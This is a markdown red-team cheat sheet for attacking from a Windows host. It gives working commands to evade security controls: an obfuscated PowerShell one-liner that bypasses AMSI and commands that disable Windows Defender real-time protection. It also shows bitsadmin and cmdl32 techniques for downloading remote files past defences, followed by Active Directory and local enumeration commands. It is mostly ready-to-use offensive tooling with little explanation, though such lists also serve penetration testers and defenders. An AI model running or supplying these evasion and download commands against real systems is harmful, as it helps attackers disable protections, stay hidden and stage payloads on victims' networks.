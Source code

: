 # RedTeam-CheatSheet From a Windows Host

---

- [CheckLists](#checklists)
  - [Mandatory](#disable-logging-and-enable-bypasses)
  - [Local Privilege Escalation](#privilege-escalation)
  - [Domain Enumeration](#domain-enumeration)
- [Commands](#commands)
  - [Bypass PowerShell Logging](#bypass-logging)
- [Living off the land](#living-off-the-land)
  - [Active Directory Built in Commands](#ad-enumeration)

---

# Checklists  
## Disable Logging and Enable Bypasses
> 1. [ ] Bypass logging - Invisishell 
> 2. [ ] Bypass PowerShell AMSI on every new user
> 3. [ ] Bypass Defender (with Admin privs)
> 4. [ ] .NET AMSI bypass (when required)

## Privilege Escalation
> 1. [ ] PowerUp.ps1

## Domain Enumeration
> 1. [ ] Domains, Forests, Trusts, SIDS
> 2. [ ] Users, fake accounts (password or logon count checks)
> 3. [ ] Domain computers
> 4. [ ] Kerberos Policy Information
> 5. [ ] GPO && OU
> 6. [ ] ACL's 
> 7. [ ] Blood-hound
> 8. [ ] SPN

--- 
# Commands  
## Bypass Logging
### Bypass Execution Policy
`powershell -ep bypass`

### Bypass AMSI 
https://amsi.fail/
```
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

### Bypass Defender
```
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
```

--- 
## Living off the Land
https://lolbas-project.github.io/#  
### Download Remote File Bypass Examples
#### Bitsadmin
`bitsadmin /transfer "import" https://<URL> C:\Users\<user>\output.txt`
#### cmdl32
1. Create a file '_settings.txt_'
```
[Connection Manager]
CMSFile=settings.txt >> settings.txt
ServiceName=WindowsUpdate >> settings.txt
TunnelFile=settings.txt >> settings.txt
[Settings] >> settings.txt
UpdateUrl=<URL of Remote File>
```
2. Run the following commands to download remote file

```
icacls %cd /deny %username%:(OI)(CI)(DE,DC)
set tmp=%cd%
cmdl32 /vpn /lan %cd%\settings.txt
icacls %cd% /remove:d %username%
```
3. Remove icacls
`icacls %cd% /remove:d %username%`

## AD Enumeration
### Domain Controllers
```
# Password Policies
Get-ADDefaultDomainPasswordPolicy
# List DC's
Get-ADDomainController -filter * | select Name, IPv4Address
```
### Organizational Units and Device Searches
```
# Organizational Units (OU's)
Get-ADOrganizationalUnit -Filter 'Name -like "*"' | Format-Table Name, DistinguishableName -A

# Get Computers within the OU's
Get-ADComputer -SearchBase "<OU-String>" -Filter * | Select-Object -ExpandProperty Name
```
### File Shares 
```
# Store devices in an OU into $FileServAD
$FileServAD = Get-ADComputer -SearchBase "OU=Servers,DC=corp,dc=ad" -Filter * | Select-Object -ExpandProperty Name

# Get SMB Shares on all the devices
Invoke-Command -ComputerName $FileServAD -ScriptBlock {Get-SmbShare -Special $false}
```

---
## Local
### Host Information
```
# System Info
sysinfo

#Networking
ipconfig /all
hostname
```

### Users and Groups
```
net users
net user <username>
net localgroups
net localgroup Administrators
```
